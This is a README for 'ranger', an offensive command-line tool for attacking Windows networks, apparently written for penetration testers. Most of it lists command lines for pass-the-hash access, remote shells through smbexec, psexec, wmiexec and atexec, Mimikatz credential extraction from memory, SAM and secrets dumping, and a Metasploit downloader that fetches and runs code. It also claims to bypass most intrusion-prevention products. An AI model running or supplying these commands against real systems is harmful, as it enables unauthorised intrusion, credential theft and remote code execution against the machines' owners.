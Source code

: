# ranger
A tool to support security professionals access and interact with remote Microsoft Windows based systems.

This project was conceptualized with the thought process, we did not invent the bow or the arrow, 
just a more efficient way of using it.

Ranger is a command-line driven attack and penetration testing tool, which as the ability to use 
an instantiated catapult server to deliver capabilities against Windows Systems.  As long as a user 
has a set of credentials or a hash set (NTLM, LM, LM:NTLM) he or she can gain access to systems that 
are apart of the trust.

Using this capability a security professional can extract credentials out of memory in clear-text, 
access SAM tables, run commands, execute PowerShell scripts, Windows Binaries, and other tools.  
At this time the tool bypasses the majority of IPS vendor solutions unless they have been custom 
tuned to detect it. The tool was developed using our home labs in an effort to support security 
professionals doing legally and/or contractually supported activities.

More functionality is being added, but at this time the tool uses the community contributions 
from repositories related to the PowerShell PowerView, PowerShell Mimikatz and Impacket teams.  

Find Logged In Users
    ranger.py [-u Administrator] [-p Password1] [-d Domain] --scout

SMBEXEC Command Shell:
    ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --smbexec -q -v -vv -vvv

PSEXEC Command Shell:
    ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --psexec -q -v -vv -vvv

PSEXEC Command Execution:
    ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --psexec -c "Net User" -q -v -vv -vvv

WMIEXEC Command Execution:
    ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec -c "Net User"

WMIEXEC PowerShell Mimikatz Memory Injector:
    ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --invoker

WMIEXEC Metasploit web_downloader Memory Injector:
    ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --downloader

WMIEXEC Custom Code Memory Injector:
    ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --executor -c "binary.exe"

ATEXEC Command Execution:
    ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --atexec -c "Net User" --no-encoder

ATEXEC PowerShell Mimikatz Memory Injector:
    ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --invoker --no-encoder

ATEXEC Metasploit web_downloader Memory Injector:
    ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --downloader --no-encoder

ATEXEC Custom Code Memory Injector:
    ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --executor -c "binary.exe" --no-encoder

SECRETSDUMP Custom Code Memory Injector:
    ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --secrets-dump

Create Pasteable Mimikatz Attack:
    ranger.py --invoker -q -v -vv -vvv

Create Pasteable web_downloader Attack:
    ranger.py --downloader -q -v -vv -vvv

Create Pasteable Executor Attack:
    ranger.py --executor -q -v -vv -vvv

